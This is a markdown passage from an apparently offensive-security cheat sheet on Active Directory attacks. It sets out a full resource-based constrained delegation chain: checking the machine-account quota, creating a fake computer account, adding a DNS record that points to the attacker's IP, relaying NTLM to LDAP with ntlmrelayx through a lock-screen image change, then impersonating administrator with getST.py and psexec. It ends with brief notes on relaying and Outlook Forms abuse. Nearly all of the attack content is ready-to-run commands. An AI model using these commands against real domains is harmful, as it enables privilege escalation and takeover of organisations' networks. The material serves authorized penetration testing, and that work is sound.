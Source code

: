 ````

#### Check who can add computers to the domain
```
(Get-DomainPolicy -Policy DC).PrivilegeRights.SeMachineAccountPrivilege.Trim("*") | Get-DomainObject | Select-Object name

Get-DomainObject | Where-Object ms-ds-machineaccountquota

cme ldap <DC IP> -d <DOMAIN> -u <USER> -p <PASS> -M maq
```

#### Create a new computer object
- https://github.com/Kevin-Robertson/Powermad
- https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py
```
import-module powermad
New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

python3 addcomputer.py -computer-name FAKE01 -computer-pass '123456' <DOMAIN>/<USER>:<PASS> -dc-ip <DC IP>
```

#### Create a DNS record pointing to the attacker's machine IP
- https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py
- https://github.com/Kevin-Robertson/Powermad/blob/master/Invoke-DNSUpdate.ps1
```
dnstool.py -u <DOMAIN>\<USER> -a add -r webdav.<DOMAIN> -d <ATTACKER IP> <DC IP>

$creds = get-credential
Invoke-DNSUpdate -DNSType A -DNSName webdav.<DOMAIN> -DNSData <IP ATTACKING MACHINE> -Credential $creds -Realm <DOMAIN>
```
- Didn't test dnstool for this attack

#### Serve image with impacket
```
sudo python3 ntlmrelayx.py -t ldap://<DC FQDN> --delegate-access --escalate-user FAKE01$ --serve-image ./image.jpg
```

#### Change lockscreen image
- https://github.com/nccgroup/Change-Lockscreen
```
change-lockscreen -webdav \\webdav@80\
```

#### Impersonate any user
```
getST.py <DOMAIN>/<MACHINE ACCOUNT>@<TARGET FQDN> -spn cifs/<TARGET FQDN> -impersonate administrator -dc-ip <DC IP>
Export KRB5CCNAME=administrator.ccache
Psexec.py -k -no-pass <TARGET FQDN>
```

## Relaying attacks
- https://www.trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022/

[Relaying section](relaying.md)

## MS Exchange
- Outlook rules and Outlook Forms are synced to all clients with the mailbox active.
- Outlook Forms VBSCript engine is different then the VBA Macro script engine (So disabling macro's wont defend against it)

````